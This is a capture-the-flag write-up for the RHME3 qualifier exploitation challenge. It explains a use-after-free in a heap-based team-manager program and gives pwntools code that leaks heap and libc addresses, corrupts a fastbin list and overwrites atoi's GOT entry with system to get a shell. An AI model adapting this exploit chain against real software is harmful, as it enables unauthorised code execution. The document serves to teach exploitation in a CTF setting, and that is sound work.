# RHME3 Qualifiers Exploitation Write-up

## Introduction

RHME3 is a hardware CTF organized by Riscure and Argus. It is specifically focused on automotive and hardware security. It is required to have the custom hardware board to play the CTF, therefore a qualification round was needed to select the participants who will receive the board.

Qualifications ran from 017-08-07 13:00:00 until 2017-08-28 13:00:00 with 3 available challenges:

* White box unboxing
* Tracing the Traces
* Exploitation

This write-up is about the 3rd challenge **Exploitation**

## Challenge description

The provided binary was running on a remote server on port 1337 as a user 'pwn'. When connected to the remote server, a simple menu is presented:

```
Welcome to your TeamManager (TM)!
0.- Exit
1.- Add player
2.- Remove player
3.- Select player
4.- Edit player
5.- Show player
6.- Show team
Your choice: 
```

The program allows for basic Player manipulation for example adding new players, deleting players, changing its parameters, name, etc. 

In the end, I managed to exploit the challange using combination of 4 techniques:

* LIBC and Heap leak
* Use-After-Free
* Fastbin Heap Attack
* Write-what-where

There are more *(simpler)* ways to solve this challenge as can be seen in other writeups:
[https://github.com/ResultsMayVary/ctf/tree/master/RHME3/pwnable](https://github.com/ResultsMayVary/ctf/tree/master/RHME3/pwnable)

[https://ktln2.org/2017/08/31/rhme3-exploitation-writeup/](https://ktln2.org/2017/08/31/rhme3-exploitation-writeup/)

In my write-up I do not go into details of how glibc’s heap works. I recommend to look at following resources to get familiar with it:
[sploitfun](https://sploitfun.wordpress.com/2015/06/26/linux-x86-exploit-development-tutorial-series/)

[Heap algorithms illustrated](https://raw.githubusercontent.com/cloudburst/libheap/master/heap.png)

[how2heap](https://github.com/shellphish/how2heap)

Another ctf write-ups on the topic that i found useful in solving this particular challenge:

[uaf.io baby-heap](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html)

[kileak ChildHeap](https://kileak.github.io/ctf/2017/SecuInsideQual-ChildHeap/)

## Structures

Description of structures which are used by the program:

**Player**

Player is a heap allocated structure consisting of 2 chunks:
* Chunk1 - fixed sized (0x18) 

```c
struct Player{
int attack;
int defense;
int speed;
int precision;
char *name;
};
```

* Chunk2 - variable length up to 256 bytes. It stores the name of the Player

**Players**

Player type array

```c
Player Players[10];
```

**Selected**

Pointer to Player element. 

Relation between the 3 structures:



### Basic operations
* Add Player
	+ allocate new 0x18 size chunk for Player object
	+ read Player name and allocate maximum 256 bytes space on the heap
	+ read data for attack, defense, speed and precision attributes
		- maximum 3 bytes passed to atoi() function, therefore maximum effective integer is in the range from 0x00 - 0x3e7 and negative from 0xFF to 0xC19 
	+ Write address of Player object to the next available index of Players[] array

* Remove Player
	+ read Player index to remove
	+ Write NULL to the Players[] index array to be removed
	+ Free() chunk with Name
	+ Free() chunk with Player data

* Select Player
	+ read Player index to select
	+ write memory address of the Player object to "Selected" pointer

* Edit Player
	+ change Player attributes of **selected** Player (Selected pointer)
	+ Change name
		- Read new name, maximum 256 bytes
		- If space of current chunk is sufficient (strlen) copy new name (strcpy), else realloc

* Show Player
	+ Print data of selected Player (Selected pointer)

* Show team
	+ Iterate through Players[] array and print data


## Solution

Looking at a basic functionality and analyzing the assembly of the binary it is noticable that there is a potential UAF vulnerability. Selected pointer holds a memory address of a free'd chunk and it is allowed to perform some actions on it. Selected pointer is also used by "Show Player" function which can be useful as well. However, there are some limitations which can make the heap exploit more complicated, i.e. strcpy with badchars of 0x00 and 0x0A, realloc, atoi() function with only 3 bytes, etc.

### Leak

When the Player object is removed (freed) it is still possible to print its data with "Show Player" function. Some "strange" numbers/data are printed. 



Below is the sequence of actions to illustrate this, with a brief explanation of the cause:

First add 3 new Players with large names. 

```python
	log.info("Add playerA")
	add_player("A"*200, 1, 1, 1, 1)

	log.info("Add playerB")
	add_player("B"*200, 2, 2, 2, 2)

	log.info("Add playerC")
	add_player("C"*200, 3, 3, 3, 3)

	log.info("Select playerA")
	select_player(0)
```

This is how it looks on the heap:



Players[] array has now 3 elements each pointing to a unique Player structure. "Selected" global variable also holds pointer to PlayerA heap chunk. 

Next step is to remove PlayerB.

```python
	log.info("Remove playerB")
	remove_player(1)
```
Memory after removing the PlayerB:



After free() operation, the small chunk (0x18 bytes) used to hold Player's data has been put on the fastbin. Fastbin is a single-linked list that contains small chunks in the LIFO queue. The heap uses it to find small free chunks quickly. At this moment the only element in the fastbin is the chunk with size 0x21 located on the address **0x19bf630** with data starting from **0x19bf640**. Notice how the area previously used by integers *attack* and *defense* has been overwriten with NULL. When the chunk is being free'd and placed on the fastbin, it puts a Forward Pointer (FD) to link next free chunk. However, because there is no next free chunk, it is pointing to NULL.

The large chunk with name of the Player has been put on the Unsorted bin. 

Next step is to remove PlayerA. 

```python
	log.info("Remove playerA")
	remove_player(0)
```

This is how the memory looks like after the operation:



Now the PlayerA small chunk has been put on top of the Fastbins (LIFO). At this point the Fastbins list has 2 elements. 

Notice how 'Selected' pointer was not cleared after the free() and it still holds the address of PlayerA object. It will be crucial in the final exploitation later but now it can be used for the leak purposes. When selecting "Show Player" from the menu, it will use "Selected" global variable to print Player's information. However, fields which are normally used for data are now overwriten with heap fastbin metadata. Therefore, the result of the "Show Player" is the leak of heap (0x019bf630) and libc addresses (0x7fe6194b8b58):



Address of the heap is in the place of free'd Player attack and defense attributes. It is FD pointer to the next free fastbin chunk on the heap.

Similarly, the Name field holds the LIBC address. It differs from previous example, because large name was used to force heap allocator not to use fastbin. All non-fastbins use a double-linked list to keep order of free large chunks. When the "Name" large chunk was free'd, part of its data was overwriten with FD and BK. Printing the name revealed the libc address. 

With this information, it is now possible to calculate the base of libc. 



### Exploitation

Exploitation approach is to overwrite the "Name" pointer in the Player chunk so it points to GOT address of atoi() function. This way, when the Player is edited it results in **write-what-where** as we control destination pointer and the content. 

First, PlayerC object is removed to clean the heap. Thereafter, 2 new Players are added, but this time with small names. It results in 4 small chunks allocated on the heap. Afterwards, when the Player is free'd its 2 chunks are placed on the fastbin.

```python
	log.info("Remove PlayerC")
	remove_player(2)

	log.info("Add Player F")
	add_player("F"*16, 5, 5, 5, 5)

	log.info("Select Player F => dangling pointer")
	select_player(0)

	log.info("Add Player G")
	add_player("G"*16, 6, 6, 6, 6)

	log.info("Remove Player F => 2 chunks put on fastbin")
	remove_player(0)
```

And this is how the heap looks like now:



PlayerF is still "Selected". It means we can do **Use-After-Free** and modify some content resulting in heap structure modification. It is possible to change the name using "Edit Player" function. Address **0x19bf670** is the PlayerF's pointer to "Name" at **0x19bf620**. First it will be checked if there is sufficient space for a new name string. In this example there are null characters at **0x19bf620** location. It means the malloc() will be attempted because there is not enough space to copy the new name. However, if small string is provided it will use the same chunk! It means that the name string will be interpreted as FD of a next fastbin free chunk. This way new fake fastbin chunk can be created. 


```python
	log.info("Create fake chunk in the Player G region. Align on 0x8")
	edit_player_name(p64(HEAPLEAK+0x8) + p64(0x4949494949494949))
```



Using heap leak address it is possible to calculate the offset for the new fake chunk. In this case +0x8 OFFSET is chosen. It will not be perfectly aligned, but it is not a requirement. When looking at the fastbin structure now, it can be observed that the fastbin list is broken. The last element has size of 0x0000000600000006 and FD is 0x0000000600000006. Obviously these are the PlayerG's attributed that have been assigned. PlayerG is still active, therefore it is easy to fix it, even with atoi() restrictions discussed earlier. 

```python
	log.info("Select Player G")
	select_player(1)

	log.info("Overwrite Player G data for proper size and null FD ")
	edit_player_attack(33)
	edit_player_defense(0)
	edit_player_speed(0)
	edit_player_precision(0)
```



The fastbin metadata has been fixed! It means that there is a heap chunk which is in 2 states at the same time: allocated and free. 

It is needed to add a new Player with a large name. Large name is required so only 1 fastbin chunk will be takes off the list.

```python
	log.info("Add Player H => Remove 1 chunk from fastbin")
	add_player("H"*0x60, 7, 7, 7, 7)
```



Fastbin has 2 elements now. It means that next time new Player with small name is added, both fastbin chunks will be used. It is possible now to control the pointer to fake Name, which subsequently can be used for **write-what-where**. 

First, the address of atoi() GOT is required:



Now, a new Player is added with atio() GOT address as part of the name.

```python
	log.info("Add Player => remove 2 chunks from fastbin")
	# ATOI GOT 0x603110
	add_player("IIIIIIII" + p64(0x603110), 8, 8, 8, 8)
```



The "selected" global variable is pointing to the fake structure. The pointer to the "name" chunk is overwritten with atoi() GOT. All that is needed now is to "Edit Player" with the address of SYSTEM and trigger the exploit.



```python
	SYSTEM = LIBC + 0x3f450

	log.info("Edit Player => Write the system to atoi GOT")
	edit_player_name(p64(SYSTEM))
	r.sendline("sh")
```

```bash
$ ./exp.py 
[+] Opening connection to 127.0.0.1 on port 1337: Done
[*] Add playerA
[*] Add playerB
[*] Add playerC
[*] Select playerA
[*] Remove playerB
[*] Remove playerA
[*] HEAP Leak     : 0x19bf630
[*] LIBC Leak     : 0x7fe6194b8b58
[*] LIBC BASE     : 0x7fe619120000
[*] Remove PlayerC
[*] Add Player F
[*] Select Player F => dangling pointer
[*] Add Player G
[*] Remove Player F => 2 chunks put on fastbin
[*] Create fake chunk in the Player G region. Align on 0x8
[*] Select Player G
[*] Overwrite Player G data for proper size and null FD 
[*] Add Player H => Remove 1 chunk from fastbin
[*] Add Player => remove 2 chunks from fastbin
[*] Edit Player => Write the system to atoi GOT
[*] Switching to interactive mode
 $ id
uid=1002(pwn) gid=1003(pwn) groups=1003(pwn)

```